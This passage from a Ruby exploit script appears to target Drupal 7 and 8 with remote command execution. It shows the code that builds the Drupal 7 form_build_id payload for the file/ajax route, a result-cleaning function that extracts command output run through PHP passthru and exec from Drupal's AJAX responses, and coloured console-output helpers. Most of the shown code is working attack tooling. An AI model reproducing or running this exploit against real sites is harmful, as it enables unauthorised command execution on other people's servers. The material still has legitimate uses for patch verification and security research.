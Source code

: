 ```ruby
    payload = "form_id=user_pass&_triggering_element_name=name"
  end

  # Drupal v7.x needs an extra value from a form
  if $drupalverion.start_with?("7")
    response = http_request(url, "post", payload, $session_cookie)

    form_name = "form_build_id"
    puts verbose("Form name  : #{form_name}") if $verbose

    form_value = response.body.match(/input type="hidden" name="#{form_name}" value="(.*)"/).to_s.slice(/value="(.*)"/, 1).to_s.strip
    puts warning("WARNING: Didn't detect #{form_name}") if form_value.empty?
    puts verbose("Form value : #{form_value}") if $verbose

    url = $target + "#{$clean_url}file/ajax/name/%23value/" + form_value
    payload = "#{form_name}=#{form_value}"
  end

  return url, payload
end


# Function clean_result <input>
def clean_result(input)
  #result = JSON.pretty_generate(JSON[response.body])
  #result = $drupalverion.start_with?("8")? JSON.parse(clean)[0]["data"] : clean
  clean = input.to_s.strip

  # PHP function: passthru
  # For: <payload>[{"command":"insert","method":"replaceWith","selector":null,"data":"\u003Cspan class=\u0022ajax-new-content\u0022\u003E\u003C\/span\u003E","settings":null}]
  clean.slice!(/\[{"command":".*}\]$/)

  # PHP function: exec
  # For: [{"command":"insert","method":"replaceWith","selector":null,"data":"<payload>\u003Cspan class=\u0022ajax-new-content\u0022\u003E\u003C\/span\u003E","settings":null}]
  #clean.slice!(/\[{"command":".*data":"/)
  #clean.slice!(/\\u003Cspan class=\\u0022.*}\]$/)

  # Newer PHP for an older Drupal
  # For: <b>Deprecated</b>:  assert(): Calling assert() with a string argument is deprecated in <b>/var/www/html/core/lib/Drupal/Core/Plugin/DefaultPluginManager.php</b> on line <b>151</b><br />
  #clean.slice!(/<b>.*<br \/>/)

  # Drupal v8.x Method #2 ~ timezone, #lazy_builder, passthru, HTTP 500
  # For: <b>Deprecated</b>:  assert(): Calling assert() with a string argument is deprecated in <b>/var/www/html/core/lib/Drupal/Core/Plugin/DefaultPluginManager.php</b> on line <b>151</b><br />
  clean.slice!(/The website encountered an unexpected error.*/)

  return clean
end


# Feedback when something goes right
def success(text)
  # Green
  return "\e[#{32}m[+]\e[0m #{text}"
end

# Feedback when something goes wrong
def error(text)
  # Red
```